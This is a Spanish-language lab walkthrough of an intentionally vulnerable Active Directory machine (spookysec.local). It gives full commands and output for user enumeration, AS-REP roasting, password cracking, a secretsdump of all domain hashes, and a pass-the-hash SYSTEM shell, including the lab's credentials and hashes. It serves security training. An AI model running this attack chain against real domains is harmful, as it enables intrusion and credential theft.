



Esta sala está diseñada para enseñar cómo explotar un entorno de Active Directory vulnerable. A través de diversas técnicas, los participantes aprenden a obtener acceso inicial, escalar privilegios y comprometer completamente un controlador de dominio.
Objetivos clave:
#nmap -sC -sV -T5 -v -Pn --open 10.10.196.209
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-29 14:26 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 14:26
Completed Parallel DNS resolution of 1 host. at 14:26, 0.04s elapsed
Initiating SYN Stealth Scan at 14:26
Scanning 10.10.196.209 [1000 ports]
Discovered open port 3389/tcp on 10.10.196.209
Discovered open port 139/tcp on 10.10.196.209
Discovered open port 445/tcp on 10.10.196.209
Discovered open port 80/tcp on 10.10.196.209
Discovered open port 135/tcp on 10.10.196.209
Discovered open port 53/tcp on 10.10.196.209
Discovered open port 88/tcp on 10.10.196.209
Discovered open port 593/tcp on 10.10.196.209
Discovered open port 3268/tcp on 10.10.196.209
Discovered open port 464/tcp on 10.10.196.209
Discovered open port 389/tcp on 10.10.196.209
Discovered open port 636/tcp on 10.10.196.209
Discovered open port 3269/tcp on 10.10.196.209
Completed SYN Stealth Scan at 14:26, 5.55s elapsed (1000 total ports)
Initiating Service scan at 14:26
Scanning 13 services on 10.10.196.209
Completed Service scan at 14:26, 25.25s elapsed (13 services on 1 host)
NSE: Script scanning 10.10.196.209.
Initiating NSE at 14:26
Completed NSE at 14:26, 11.67s elapsed
Initiating NSE at 14:26
Completed NSE at 14:26, 8.26s elapsed
Initiating NSE at 14:26
Completed NSE at 14:26, 0.00s elapsed
Nmap scan report for 10.10.196.209
Host is up (0.25s latency).
Not shown: 987 closed tcp ports (reset)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-04-29 18:25:51Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: THM-AD
| NetBIOS_Domain_Name: THM-AD
| NetBIOS_Computer_Name: ATTACKTIVEDIREC
| DNS_Domain_Name: spookysec.local
| DNS_Computer_Name: AttacktiveDirectory.spookysec.local
| Product_Version: 10.0.17763
|_ System_Time: 2025-04-29T18:26:09+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-28T18:21:54
| Not valid after: 2025-10-28T18:21:54
| MD5: 34c2:6371:7e26:b93b:691b:272f:4684:3851
|_SHA-1: dfa1:9e5c:11c8:87f4:3595:586b:56a7:81fc:c211:ff43
|_ssl-date: 2025-04-29T18:26:18+00:00; -31s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2025-04-29T18:26:10
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: mean: -30s, deviation: 0s, median: -31s
Como fase inicial de reconocimiento, se realizó un escaneo de puertos para identificar los servicios expuestos en la máquina objetivo. El análisis reveló múltiples servicios clave que sugieren que el sistema es un Controlador de Dominio en un entorno Windows.
📌 Puertos abiertos identificados:
🧠 Información adicional extraída:

Al acceder al puerto 80 mediante el navegador, se carga la página por defecto de Microsoft IIS (Internet Information Services), indicando que el servidor web está operativo pero no expone contenido personalizado o aplicaciones activas en esta ruta.
Esta página es la instalación por defecto de IIS en servidores Windows, lo que no proporciona información directa explotable, pero sí confirma el uso de Microsoft IIS 10.0, ya identificado durante el escaneo con Nmap. También puede ser una señal de que el servidor está recién configurado o que los recursos web están ubicados en rutas específicas que no están enlazadas desde esta página inicial.

Para facilitar la navegación y evitar depender de la IP directamente, se añadió una entrada personalizada al archivo /etc/hosts, asignando el nombre de dominio spookysec.local a la dirección IP de la máquina objetivo.
Esta configuración permite utilizar el dominio interno de la máquina (spookysec.local) en lugar de su IP, lo cual es especialmente útil al interactuar con servicios que dependen de la resolución DNS, como Kerberos, LDAP o SMB, o al realizar ataques que requieren autenticación basada en dominio.
#netexec smb 10.10.196.209
SMB 10.10.196.209 445 ATTACKTIVEDIREC [*] Windows 10 / Server 2019 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
Se utilizó la herramienta NetExec para enumerar el servicio SMB expuesto en el puerto 445 de la máquina objetivo. Esta técnica permite obtener información básica del sistema y del entorno de red sin necesidad de credenciales.
🔎 Información revelada:
python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[*] Valid user => james
[*] Blocked/Disabled user => guest
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Valid user => darkstar
[*] Valid user => administrator
[*] Valid user => backup
[*] Valid user => paradox
Se llevó a cabo un ataque de enumeración de usuarios mediante el protocolo Kerberos utilizando la herramienta kerbrute, la cual permite validar usuarios dentro de un dominio basado en Active Directory sin necesidad de credenciales válidas. Este ataque es posible gracias a las respuestas del KDC (Key Distribution Center) ante peticiones mal formadas.
Usuarios válidos identificados:
Observación clave:
El usuario svc-admin está marcado como [NOT PREAUTH], lo que significa que no requiere preautenticación Kerberos. Esta condición lo hace vulnerable a ataques de tipo AS-REP roasting, donde es posible solicitar un ticket cifrado con la contraseña del usuario sin necesidad de autenticarse previamente.
#python3 GetNPUsers.py spookysec.local/svc-admin -no-pass
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:0b46b6979dec99cf1c0d01103559d380$d5605bc2271691f9307f2f765435e24216753be68832be96e5d6c04b7739c520c0232e4cce3295673216019d04f39f9360a5c93dabe82c0140a1245be3b4d2561f7661b4e68d2f6c7b8cfea141960f56404fc15a69dcc16190d2ef6d2cd05eb3bc8e3ebdfab99a3fc4725228cc9e34d7311db3fc7285afe4164e2c4dfe0c6ff9bddc245ae57f7e5bfc12a0e9770e48b5be32df2d8f7422fa1ec0207e3013ed530a8026d0ac69a85eb11be8e949c906a2274a398bdfd0a191959ba183da6add305ec429456f1b62cce4f4a5b01a0adbf1667157a8f6892cb992e095f0e3feffab1b8308c1522c4e6adfaecfc02c9f7650396b
Aprovechando que el usuario svc-admin no requiere preautenticación Kerberos (flag DONT_REQ_PREAUTH activado), se ejecutó el ataque AS-REP Roasting utilizando el script GetNPUsers.py de Impacket. Este ataque permite solicitar un Ticket Granting Ticket (TGT) cifrado directamente por el KDC sin necesidad de conocer la contraseña del usuario. El ticket devuelto está cifrado con el hash de la contraseña del usuario, por lo que puede ser crackeado offline con herramientas como Hashcat o John the Ripper.
Resultado del ataque, se obtuvo exitosamente un hash de tipo $krb5asrep$23, correspondiente al usuario svc-admin.

Se extrajo el hash AS-REP del usuario svc-admin y se guardó en un archivo llamado hash con el fin de facilitar su posterior uso con herramientas de fuerza bruta como Hashcat o John the Ripper.
#john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005 (?)
1g 0:00:01:02 DONE (2025-04-29 15:33) 0.01606g/s 93772p/s 93772c/s 93772C/s manaia08..mana760add055
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Se crackeó con éxito el hash del usuario svc-admin mediante un ataque de diccionario utilizando la lista rockyou.txt. La contraseña obtenida fue:
management2005
Este resultado confirma que svc-admin es un usuario válido con credenciales funcionales, lo que abre la puerta a autenticarse en servicios del dominio como SMB o WinRM para continuar con la fase de explotación o escalada de privilegios.
#netexec smb spookysec.local -u 'svc-admin' -p 'management2005'
SMB 10.10.241.148 445 ATTACKTIVEDIREC [*] Windows 10 / Server 2019 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB 10.10.241.148 445 ATTACKTIVEDIREC [+] spookysec.local\svc-admin:management2005
#smbclient -L spookysec.local --user 'svc-admin' --password 'management2005'
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
backup Disk
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌─[root@parrot]─[/home/agente0]
└──╼ #smbclient \\\\spookysec.local\\backup --user 'svc-admin' --password 'management2005'
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Sat Apr 4 15:08:39 2020
.. D 0 Sat Apr 4 15:08:39 2020
backup_credentials.txt A 48 Sat Apr 4 15:08:53 2020
8247551 blocks of size 4096. 3577546 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \>
Tras autenticarse con éxito, se listaron los recursos compartidos disponibles en el servidor. Uno de ellos, llamado backup, contenía un archivo interesante: backup_credentials.txt. Se accedió al recurso y se descargó el archivo localmente, lo que podría revelar nuevas credenciales o información sensible útil para avanzar en el compromiso del sistema.
#cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw┌─[root@parrot]─[/home/agente0]
└──╼ #echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
backup@spookysec.local:backup2517860
El archivo backup_credentials.txt contenía una cadena codificada en Base64, la cual al ser decodificada reveló credenciales adicionales:
backup@spookysec.local : backup2517860
Estas credenciales podrían pertenecer a un usuario con mayores privilegios o acceso a nuevos servicios, lo que representa una vía potencial para continuar con la explotación o escalar privilegios dentro del dominio.
#python3 secretsdump.py -just-dc backup@spookysec.local
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:01af531f823ea37a4ffb8e9bd7625fcf:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:b1aaaebe8f777a5e8a9a67be6812425051ad523f59440082c7146b9492b595b1
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:90b36e292b961d975546db2bc8847ad1
ATTACKTIVEDIREC$:des-cbc-md5:8ac1373431945b57
[*] Cleaning up...
Con las credenciales de backup@spookysec.local, se logró ejecutar exitosamente secretsdump.py usando la opción -just-dc, lo que permitió extraer todos los hashes NTLM del controlador de dominio. Entre los datos más importantes:
#python3 psexec.py Administrator@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on spookysec.local.....
[*] Found writable share ADMIN$
[*] Uploading file pbpFBVGB.exe
[*] Opening SVCManager on spookysec.local.....
[*] Creating service fgHb on spookysec.local.....
[*] Starting service fgHb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32>
Usando el hash NTLM previamente extraído del usuario Administrator mediante secretsdump.py, ejecuté un ataque Pass-the-Hash con psexec.py para obtener una shell remota en el controlador de dominio. Esto me permitió ejecutar comandos como NT AUTHORITY\SYSTEM, logrando el compromiso total del sistema y control absoluto sobre el dominio.